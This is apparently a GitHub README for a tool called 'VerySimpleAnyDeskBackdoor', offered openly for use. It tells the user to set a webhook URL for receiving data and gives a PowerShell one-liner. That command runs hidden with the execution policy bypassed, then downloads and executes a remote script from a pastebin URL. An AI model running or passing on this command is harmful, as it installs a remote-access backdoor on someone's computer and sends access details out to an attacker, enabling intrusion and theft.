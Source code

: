 # VerySimpleAnyDeskBackdoor

Don't forget to change the $webhookUrl parameter to your desired one.

Run this as a oneliner:
```
Start-Process powershell.exe -ArgumentList "-NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -Command Invoke-Expression (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/wR5bkkut')"
```

![Demo](https://i.imgur.com/OYKZ6jL.gif)
